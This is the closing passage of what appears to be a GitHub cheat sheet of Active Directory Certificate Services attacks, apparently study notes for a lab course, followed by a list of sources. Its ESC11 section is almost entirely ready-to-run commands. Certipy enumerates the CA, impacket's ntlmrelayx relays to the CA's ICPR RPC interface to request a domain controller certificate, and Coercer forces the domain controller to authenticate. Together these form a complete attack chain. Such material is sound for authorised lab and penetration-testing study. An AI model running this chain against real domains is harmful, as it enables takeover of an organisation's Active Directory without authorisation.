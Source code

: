 ```
source coercer_venv/bin/activate
/opt/Tools/Coercer/Coercer.py coerce -l MACHINE_NAME.DOMAIN -t DC.DOMAIN -u USER -p 'PASSWORD' -d DOMAIN -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

<br>

### <a name="27"></a>2.7 &nbsp;&nbsp; ESC11

Condition: 

- RPC interface enabled in the Certificate Authority 

Enumerate ICPR:

```
source certipy_esc11_venv/bin/activate
certipy find -u USER@DOMAIN -p 'PASSWORD' -stdout
```

Set up relay:

```
source impacket_esc11_venv/bin/activate
/opt/Tools/impacket-esc11/examples/ntlmrelayx.py -t "rpc://CA_NAME.DOMAIN" -rpc-mode ICPR -icpr-ca-name "CA_NAME" -smb2support --adcs --template 'DomainControllerAuthentication'
```

Coerce authentication:

```
source coercer_venv/bin/activate
/opt/Tools/Coercer/Coercer.py coerce -l MACHINE_NAME.DOMAIN -t DC.DOMAIN -u USER -p 'PASSWORD' -d DOMAIN -v --filter-method-name "EfsRpcDuplicateEncryptionInfoFile"
```

<br>

---------------------------------------


# <a name="3"></a> 3. &nbsp;&nbsp; Sources

- [Altered Security - ADCS lab](https://www.alteredsecurity.com/adcs): This is the course, highly recommended to complete the labs.

- [SpecterOps - Certified Pre-Owned: Abusing Active Directory Certificate Services](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf): This is the paper in which the course is based, it is not short in length but the content is extremely interesting, a must-read specially if you are taking or planning to take the course.

- [SensePost - CertPotato: Using ADCS to privesc from virtual and network service accounts to local system](https://sensepost.com/blog/2022/certpotato-using-adcs-to-privesc-from-virtual-and-network-service-accounts-to-local-system/): The blog post where CertPotato privilege escalation is explained.

- [Tarlogic - AD CS: weaponizing the ESC7 attack](https://www.tarlogic.com/blog/ad-cs-esc7-attack/): The blog post where ESC7.1 abuse is explained, not included in SpecterOps' paper.
